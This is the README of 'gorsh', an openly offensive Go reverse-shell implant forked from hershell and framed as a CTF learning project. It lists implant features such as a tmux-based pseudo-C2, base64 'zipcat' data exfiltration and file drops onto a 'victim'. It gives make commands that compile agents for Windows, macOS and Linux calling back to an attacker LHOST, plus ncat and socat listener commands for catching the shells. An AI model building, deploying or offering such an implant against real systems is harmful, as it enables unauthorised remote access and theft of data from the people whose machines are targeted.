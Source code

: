 # gorsh

[go]lang [r]everse [sh]ell

![](https://i.imgur.com/x51XH6K.png)
![](https://i.imgur.com/pvCmHYa.png)

Originally forked from - [sysdream/hershell](https://github.com/sysdream/hershell)

## Motivation

Learn go.  
Make a throwaway reverse shell for things like CTFs.  
Learn about host-based OPSEC considerations when writing an implant.

## Fork Changes
Changes after fork:

* Uses tmux as a pseudo-C2-like interface, creating a new window with each agent callback
* zipcat: zip > base64 > cat for data small/medium data exfil (zstd/x64 or gzip/x86)
* Download files to victim with HTTP on all platform
* Download files to victim with SMB on all windows
* Situational Awareness output on new shells
* Removed Meterpreter functionality
* Removed Shellcode execution
* Remove the use of passing power/shell commands at the gorsh prompt
* Add common file operation commands that use go instead of power/shell

__NOTICE__: Requires go 1.11.
Also, the zStandard compression library in this project uses `cgo` and thus you'll need the mingw
compiler on Linux if you want to compile the Windows agents. It also only supports GOARCH=amd64, so
32-bit agents use a less efficient gzip algo.

And so does the darwin64 agent, until I can figure out a sane way to compile.

Roadmap:

- [ ] Potentially add reverse socks5 proxy functionality - Using
[Numbers11/rvprxmx](https://github.com/Numbers11/rvprxmx)
- [ ] Recon module for analyzing things like tasks, services, and host-based protections
- [ ] Dotnet integration so `shell` drops into a Runspace with System.Management.Automation. 
      Bacially PowerShell without PowerShell.
- [ ] Fix CGO compilation for macos64 so it uses zstd for compression instead of gzip


## Getting started

Because this project uses `cgo` and tries to cross-compile for linux/windows/macos, you'll need a
windows compiler. I've only tried this on Debian, but since go1.11, you just need mingw installed.

```sh
sudo apt install gcc-mingw-w64 binutils-mingw-w64-x86-64
go get github.com/audibleblink/gorsh/...
GOOS=windows go get github.com/audibleblink/gorsh/...
cd $GOPATH/src/github.com/audibleblink/gorsh
```

That's it, as far cross-compiling to Windows64 goes. While it is often required during
cross-compilation to set variables like $CC, $CXX, $AS, $LD, ... it is not required as go1.11
linux/amd64 picks up on the presence of the toolchain it needs.

Make sure to read the Makefile. It gives you a good idea of what's going on.

Check out the [official documentation](https://golang.org/doc/install) for an intro to developing
with Go and setting up your Golang environment (with the `$GOPATH` environment variable).

### Building the payload

First, you'll need to generate your certs:

```bash
$ make depends
```

You can set the following environment variables to compile using `go build`:

- `GOOS`: the target OS
- `GOARCH`: the target architecture
- `LHOST`: the attacker IP or domain name
- `LPORT`: the listener port

See possible`GOOS`and`GOARCH`variables [here](https://golang.org/doc/install/source#environment).

For the `make` targets, you only need the`LHOST`and`LPORT`environment variables.

Generate with:

```bash
$ make {windows,macos,linux}{32,64} LHOST=example.com LPORT=443
#or
$ make all LHOST=example.com LPOST=443
```

[Troubleshooting](./DEVELOPING)


## Catching the shell

The `make listen` target kicks off a tmux session and creates new windows with each new connection.
Feed it a port number as LPORT.

```sh
make listen LPORT=8080

# once a client connects
tmux attach -t GORSH
```

Shells can also be caught without tmux using:

* socat (not working on macos)
* ncat
* openssl server module
* metasploit multi handler (with a `python/shell_reverse_tcp_ssl` payload)

__Examples__

```bash
$ ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 1234
$ socat stdio OPENSSL-LISTEN:443,cert=server.pem,key=server.key,verify=0
```

Once executed, you will be provided with the tool's shell.
Type `help` to show what commands are supported.

## Credits

* Initial Work - Ronan Kervella `<r.kervella -at- sysdream -dot- com>`
* Modifications - f47h3r - [@f47h3r_b0](https://twitter.com/f47h3r_b0)
* mzpqnxow for figuring out my x-compilation and dependancy problems and troubleshooting guide
